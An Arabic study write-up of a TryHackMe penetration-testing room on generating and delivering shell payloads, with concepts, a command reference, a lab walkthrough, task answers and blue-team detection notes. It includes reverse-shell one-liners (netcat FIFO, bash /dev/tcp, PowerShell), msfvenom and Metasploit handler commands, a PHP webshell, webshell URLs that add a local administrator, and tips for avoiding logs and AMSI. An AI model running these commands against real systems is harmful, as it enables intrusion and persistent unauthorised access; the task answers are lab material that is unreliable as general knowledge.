

# توثيق غرفة توليد وتسليم حمولات القذائف (Shell Payload Generation & Delivery)

---

## 1. بيانات المديول والروم (Metadata & Overview)

* **المسار التعليمي:** مسار مبتدئ اختبار الاختراق (Jr Penetration Tester)
* **المديول:** المديول الثاني عشر — ميتاسبلويت والاستغلال (12-METASPLOIT-AND-EXPLOITATION)
* **اسم الغرفة:** توليد وتسليم حمولات القذائف (Shell Payload Generation & Delivery)
* **المعرف البرمجي (Slug):** `shellgenerationdelivery`
* **الرابط المباشر:** [TryHackMe Shell Payload Generation & Delivery](https://tryhackme.com/room/shellgenerationdelivery)
* **مستوى الصعوبة:** متوسط (Medium)
* **النوع:** غرفة إرشادية وتطبيق عملي على أهداف حية (Walkthrough & Hands-on VM Labs)
* **سيناريو التقييم:** توليد حمولات تنفيذية مستقلة ومرحلية عبر msfvenom لأنظمة لينكس وويندوز، وإدارة الجلسات في الخلفية عبر `multi/handler`، وزرع وترقية قذائف الويب (Webshells)، واستغلال بيئة XAMPP لإنشاء حساب مسؤول محلي وتثبيت الوصول عبر RDP.
* **عدد المهام:** 8 مهام
* **عدد الأسئلة:** 17 سؤالاً وتأكيداً تم حلها والتحقق منها بنسبة 100%

---

## 2. الملخص التنفيذي (Executive Summary)

تُمثل غرفة **Shell Payload Generation & Delivery** الجسر العملياتي الفاصل بين إعداد المستمعات السلبية (Passive Listeners) وبين القدرة الهجومية الفعالة على صناعة حمولات تنفيذية مخصصة تُحقق الاتصال العكسي وتتغلب على قيود بيئات العمل المحصنة. عندما يواجه مختبر الاختراق ثغرة لرفع الملفات دون وجود وصول تفاعلي للطرفية، أو أنظمة تم تجريدها من برمجيات Netcat التقليدية، تصبح مهارة توليد وتسليم الحمولات هي المسار الوحيد للنجاح.

تُغطي الغرفة المهارات المتقدمة التالية:
1. **استغلال المكونات الأصلية للنظام (Living off the Land):** تجاوز غياب خيار `-e` في Netcat عبر إنشاء الأنابيب المسماة (Named Pipes / FIFO)، وإنشاء مقابس TCP شبكية خام في ويندوز عبر فئة دوت نت `System.Net.Sockets.TCPClient` في باورشيل، واستغلال المسار الافتراضي للنواة `/dev/tcp` في لينكس.
2. **صناعة الحمولات التنفيذية عبر msfvenom:** إنشاء حمولات لينكس غير مرحلية (`linux/x64/shell_reverse_tcp`) بصيغة `-f elf`، وحمولات ويندوز مرحلية (`windows/x64/meterpreter/reverse_tcp`) بصيغة `-f exe`، وضبط دورات التشفير عبر علم `-i`.
3. **إدارة وتنسيق الجلسات عبر Metasploit multi/handler:** تشغيل المستمعات في الخلفية كمهام برمجية مستقلة عبر علم `-j`، ومتابعة مصافحة المرحلتين ورسالة `Sending stage`، والتنقل بين الجلسات النشطة عبر `sessions -i`.
4. **تكتيكات قذائف الويب (Webshells):** برمجة قذائف ويب خفيفة بلغة PHP تعتمد على دالة `shell_exec`، وإدراك الميزة الأمنية لاستخدام طريقة **POST** لتفادي تسجيل الأوامر في سجلات خادم الويب (`access.log`)، واستخدام قذيفة `php-reverse-shell.php` الشهيرة لترقية الاتصال لقذيفة عكسية كاملة.
5. **تثبيت الوصول الإداري (Persistence via RDP):** تنفيذ أوامر النظام عبر قذيفة الويب لإنشاء حساب مستخدم جديد وإضافته لمجموعة المدراء (`net localgroup administrators pentester /add`) والاتصال عبر سطح المكتب البعيد RDP.

---

## 3. مخطط سير العمل وتوليد الحمولات وتسليمها (Architectural Flowchart)



---

## 4. المتطلبات وإعداد البيئة (Prerequisites & Environment Setup)

* **الهدف الأول:** جهاز لينكس مزود بخدمة SSH وخادم ويب (`ssh shell@MACHINE_IP` بكلمة مرور `TryH4ckM3!`).
* **الهدف الثاني:** خادم Windows Server 2019 مزود بـ XAMPP وسطح مكتب بعيد RDP (`xfreerdp`).
* **الأدوات المستخدمة:** `msfvenom`, `msfconsole`, `netcat`, `curl`, `xfreerdp`.

---

## 5. الفروق الهندسية وميكانيكا العمل (Core Concepts & Technical Deep Dive)

### أ. ميكانيكا الأنبوب المسمى (Named Pipe FIFO) مع Netcat
* قامت توزيعات لينكس الحديثة (مثل OpenBSD Netcat) بإزالة خيار `-e` لمنع استخدامه المباشر كباب خلفي.
* يتم الالتفاف على ذلك بإنشاء ملف أنبوب مسمى (`mkfifo /tmp/f`)؛ حيث يقرأ Netcat مدخلاته من الأنبوب ويرسلها عبر الشبكة للمهاجم، بينما يتم توجيه مخرجات الاتصال الشبكي للطرفية `/bin/sh`، وتقوم الطرفية بإعادة توجيه مخرجاتها ومسارات الأخطاء (`2>&1`) إلى نفس الأنبوب المسمى، فتكتمل الدائرة المغلقة لنقل الأوامر والردود.

### ب. قذائف باورشيل المباشرة عبر فئة `System.Net.Sockets.TCPClient`
* بدلاً من تنزيل أدوات خارجية على ويندوز، تستغل قذيفة باورشيل بيئة .NET لإنشاء مقبس اتصال شبكي ثنائي الاتجاه عبر فئة `System.Net.Sockets.TCPClient`.
* تقوم القذيفة بقراءة مصفوفة البايتات الواردة، وتنفيذها كأوامر برمجية عبر دالة `Invoke-Expression` (`iex`)، ثم إعادة إرسال النتائج مع موجه الأوامر الحالي عبر قناة الاتصال الشبكية `NetworkStream`.

### ج. مصافحة المرحلتين للحمولات المرحلية (Staged Handshake)
* عند استخدام حمولة مرحلية مثل `windows/x64/meterpreter/reverse_tcp`، يحتوي الملف التنفيذي على كود صغير (Stager) يهدف فقط لفتح المقبس.
* يتولى مستمع `multi/handler` استقبال اتصال الـ Stager وإرسال كود المرحلة الكاملة (Stage) مباشرة للذاكرة، وهو ما تؤكده رسالة `Sending stage (X bytes)`.

### د. أثر قذائف الويب في سجلات الخوادم: GET مقابل POST
* طلبات **GET** تمرر الأوامر ضمن رابط الـ URL (`/shell.php?cmd=whoami`)، مما يؤدي لتسجيل الأمر الصريح في سجلات الخادم (`access.log`) وكشف الهجوم فوراً.
* طلبات **POST** تمرر الأوامر في متن الطلب (HTTP Body)، مما يجعل سجل الخادم يقتصر على تسجيل مسار الملف فقط (`/shell.php`) دون تسجيل الأوامر المنفذة.

---

## 6. مرجع أوامر توليد الحمولات وقذائف الويب (Commands Reference)

| الأداة / السياق | الأمر أو الحمولة الكاملة | الوصف والهدف العملياتي |
| :--- | :--- | :--- |
| **Netcat FIFO Reverse** | `mkfifo /tmp/f; nc <IP> 4444 < /tmp/f \| /bin/sh >/tmp/f 2>&1; rm /tmp/f` | قذيفة عكسية بنظام الأنبوب المسمى عند غياب خيار `-e` |
| **Bash TCP Reverse** | `bash -i >& /dev/tcp/<IP>/4444 0>&1` | قذيفة عكسية مدمجة تستغل جهاز `/dev/tcp` في باش |
| **PowerShell Reverse** | `powershell -c "$c=New-Object System.Net.Sockets.TCPClient('<IP>',4444);..."` | قذيفة عكسية أحادية السطر في ويندوز عبر فئة دوت نت |
| **msfvenom Linux Stageless** | `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f elf -o shell.elf` | توليد ملف تنفيذي لينكس 64-بت غير مرحلي |
| **msfvenom Windows Staged** | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o shell.exe` | توليد ملف تنفيذي ويندوز مرحلي لـ Meterpreter |
| **Metasploit Handler** | `use multi/handler`<br>`set PAYLOAD <payload>`<br>`set LHOST <IP>`<br>`exploit -j` | تشغيل المستمع العام في الخلفية لإدارة الجلسات |
| **Session Control** | `sessions -i <ID>` | استدعاء والتفاعل مع جلسة نشطة برقمها التعريفي |
| **Minimal PHP Webshell** | `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>` | قذيفة ويب خفيفة بلغة PHP مع حفظ التنسيق |
| **Windows User Creation** | `net user pentester Passw0rd! /add`<br>`net localgroup administrators pentester /add` | إنشاء مستخدم محلي وإضافته لمجموعة المدراء |

---

## 7. سيناريو التقييم العملي: مختبرات لينكس وويندوز (Practical Walkthrough)

### المختبر 1: استغلال خادم لينكس (Linux Target VM)
1. توليد حمولة لينكس تنفيذية غير مرحلية:
   ```bash
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f elf -o shell.elf
   ```
2. رفع وتنفيذ الحمولة واستقبال الاتصال عبر Netcat (`nc -lvnp 4444`).
3. تجربة توليد حمولة مرحلية واستقبالها عبر `multi/handler` وملاحظة ظهور عبارة `Sending stage` التي تؤكد اكتمال مصافحة المرحلتين بنجاح.
4. رفع قذيفة ويب PHP واستدعاء قذيفة عكسية تفاعلية عبر أداة `curl` وتمرير الأمر المشفر عبر `--data-urlencode`.

### المختبر 2: استغلال خادم ويندوز وتثبيت الوصول (Windows Server 2019)
1. توليد حمولة Meterpreter تنفيذية لويندوز:
   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f exe -o meterpreter.exe
   ```
2. تشغيل المستمع في الخلفية:
   ```bash
   use multi/handler
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST 10.10.14.15
   set LPORT 4444
   exploit -j
   ```
3. تنفيذ الحمولة على خادم ويندوز، واستدعاء الجلسة عبر `sessions -i 1`، ثم تنفيذ أمر استعلام بيانات النظام:
   ```text
   meterpreter > sysinfo
   Computer        : WIN-SERVER2019
   OS              : Windows Server 2019 (10.0 Build 17763).
   Architecture    : x64
   ```
4. رفع قذيفة ويب إلى خادم XAMPP وتنفيذ أوامر إنشاء مستخدم محلي بصلاحيات إدارية كاملة:
   ```text
   http://MACHINE_IP/uploads/shell.php?cmd=net%20user%20pentester%20Passw0rd!%20/add
   http://MACHINE_IP/uploads/shell.php?cmd=net%20localgroup%20administrators%20pentester%20/add
   ```
5. تسجيل الدخول بنجاح عبر بروتوكول RDP باستخدام المستخدم الجديد `pentester`.

---

## 8. فهرس المهام والأسئلة (Tasks & Questions Index)

| رقم المهمة | عنوان المهمة | عدد الأسئلة | الإجابات والأعلام المعتمدة | ملف التوثيق المفصل |
| :---: | :--- | :---: | :--- | :---: |
| 01 | Introduction | 1 | فهم أهداف توليد الحمولات وتسليمها (`No answer needed`) | [TASK-01.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS/TASK-01.md) |
| 02 | Common Shell Payloads | 3 | تقنية الأنبوب المسمى (`named pipe`)، وفئة دوت نت (`System.Net.Sockets.TCPClient`)، والمسار الوهمي (`/dev/tcp`) | [TASK-02.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS/TASK-02.md) |
| 03 | msfvenom | 3 | حمولة لينكس غير المرحلية (`linux/x64/shell_reverse_tcp`)، وعلم التكرار (`-i`)، وحمولة الذاكرة المتقدمة (`meterpreter`) | [TASK-03.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS/TASK-03.md) |
| 04 | Metasploit multi/handler | 3 | أمر تحميل الوحدة (`use multi/handler`)، وخيار العمل في الخلفية (`-j`)، وأمر التفاعل مع الجلسة (`sessions -i`) | [TASK-04.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS/TASK-04.md) |
| 05 | Webshells | 3 | دالة تنفيذ الأوامر (`shell_exec`)، وطريقة الطلب المخفية (`POST`)، وسكربت كالي الشهير (`php-reverse-shell.php`) | [TASK-05.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS/TASK-05.md) |
| 06 | Practical Exercises: Linux | 2 | صيغة ملفات لينكس (`-f elf`)، وعبارة تأكيد مصافحة المرحلتين (`Sending stage`) | [TASK-06.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS/TASK-06.md) |
| 07 | Practical Exercises: Windows | 1 | أمر استعلام معلومات النظام في Meterpreter (`sysinfo`) | [TASK-07.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS/TASK-07.md) |
| 08 | Conclusion | 1 | إتمام منهجية توليد وتسليم الحمولات بنجاح (`No answer needed`) | [TASK-08.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS/TASK-08.md) |

---

## 9. تحليل أمني ومفاهيم الدفاع والرصد (Defense, Detection & Blue Team)

1. **كشف قذائف الويب وتحصين خوادم الويب:**
   - تعطيل دوال التنفيذ الخطرة في ملف إعدادات بايثون أو PHP (`disable_functions = shell_exec, exec, system, passthru, proc_open, popen`).
   - منع خوادم الويب من كتابة ملفات تنفيذية في مجلدات التحميلات (Uploads) وتجريدها من صلاحيات التنفيذ عبر ضبط إعدادات الـ Web Server لمنع تفسير سكربتات PHP/ASPX داخل مسارات `/uploads/`.
2. **رصد استحداث الحسابات المحلية المشبوهة:**
   - مراقبة سجلات أحداث أمان ويندوز: Event ID 4720 (إنشاء حساب مستخدم جديد) و Event ID 4728/4732 (إضافة مستخدم لمجموعة ذات صلاحيات أمنية مرتفعة).
   - رصد العمليات الوليدة المشبوهة؛ حيث يُعد تشغيل `net.exe` أو `net1.exe` من قِبل عمليات خادم الويب (`httpd.exe` أو `w3wp.exe`) دليلاً قاطعاً على اختراق خادم الويب.

---

## 10. مصفوفة MITRE ATT&CK للغرفة

| مرحلة الهجوم | المعرف التقني | اسم التقنية | التطبيق العملي في الغرفة |
| :--- | :--- | :--- | :--- |
| **Initial Access / Persistence** | T1505.003 | Web Shell | رفع واستخدام قذائف PHP عبر خوادم الويب |
| **Execution** | T1059.004 | Unix Shell | تشغيل حمولات ELF وقذائف باش عبر `/dev/tcp` |
| **Execution** | T1059.001 | PowerShell | تشغيل قذائف باورشيل عبر `System.Net.Sockets.TCPClient` |
| **Discovery** | T1082 | System Information Discovery | استعراض بيانات النظام عبر أمر `sysinfo` في Meterpreter |
| **Persistence** | T1136.001 | Create Account: Local Account | إنشاء حساب `pentester` إداري عبر أمر `net user` |
| **Lateral Movement** | T1021.001 | Remote Desktop Protocol | الاتصال بالخادم عبر بروتوكول RDP باستخدام الحساب المستحدث |

---

## 11. الأخطاء الشائعة وحلولها (Common Pitfalls)

* **المشكلة:** فشل تشغيل حمولة الـ ELF على خادم لينكس الهدف بعد رفعها.
  * *السبب:* غياب صلاحيات التنفيذ (`Execute permission`).
  * *الحل:* تنفيذ أمر `chmod +x shell.elf` قبل التشغيل، أو استدعاء الملف عبر المشغل الديناميكي (`/lib64/ld-linux-x86-64.so.2 ./shell.elf`).
* **المشكلة:** عدم اكتمال جلسة Meterpreter وتجمد المستمع عند محاولة الاتصال.
  * *السبب:* عدم تطابق نوع الحمولة بين ما تم توليده في `msfvenom` وما تم ضبطه في `multi/handler` (مثل توليد حمولة مرحلية `/` وضبط المستمع على غير مرحلية `_`).
  * *الحل:* التأكد من التطابق الحرفي للحمولة والمنفذ في الطرفين.

---

## 12. المقارنات التقنية والتكتيكية (Technical Comparisons)

| وجه المقارنة | حمولات القذائف المباشرة (Direct Shells) | قذائف الويب (Webshells) |
| :--- | :--- | :--- |
| **بروتوكول الاتصال** | مقبس TCP خام عبر منافذ مخصصة (مثل 4444) | طلبات HTTP/HTTPS عبر منافذ الويب المعيارية (80/443) |
| **تجاوز جدران الحماية** | قد يُحجب إذا كانت منافذ الخروج مقيدة | يتجاوز قيود الخروج بسهولة تامة لعمله عبر بروتوكول الويب |
| **طبيعة التفاعل** | تفاعلية كاملة مع دعم الـ TTY | غير تفاعلية بطبيعتها (تعتمد على إرسال طلب واستقبال رد) |
| **البصمة في السجلات** | تدفقات شبكية غير مألوفة | طلبات ويب عادية (تكون خفية بالكامل عند استخدام POST) |

---

## 13. أفضل الممارسات وقواعد الاشتباك (Best Practices & ROE)

1. **حذف قذائف الويب فوراً:** إزالة أي ملفات webshell تم رفعها إلى خوادم العملاء لتجنب استغلالها من جهات غير مصرح لها.
2. **إزالة الحسابات المستحدثة:** حذف أي حسابات محلية تم إنشاؤها (`pentester`) وإلغاء صلاحياتها فور انتهاء مرحلة الاختبار وتوثيق ذلك في التقرير.
3. **تشفير حمولات باورشيل:** استخدام التشفير أو التعتيم البرمجي لتفادي الحجب المفاجئ من قِبل محرك AMSI في بيئات ويندوز المحصنة.

---

## 14. المراجع والمصادر الرسمية (References & Official Links)

* [TryHackMe Shell Payload Generation & Delivery Room](https://tryhackme.com/room/shellgenerationdelivery)
* [Rapid7 Official msfvenom Documentation](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)
* [Microsoft .NET System.Net.Sockets Documentation](https://learn.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient)
* [GNU Bash /dev/tcp Redirection Standards](https://www.gnu.org/software/bash/manual/bash.html#Redirections)
* [MITRE ATT&CK: Web Shells (T1505.003)](https://attack.mitre.org/techniques/T1505/003/)
* [فهرس المهام والحلول المعتمدة (TASKS.md)](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS.md)
* [الملاحظات التقنية المعمقة (ADDITIONAL-NOTES.md)](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/ADDITIONAL-NOTES.md)
* [المراجع والمعايير الرسمية (REFERENCES.md)](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/REFERENCES.md)
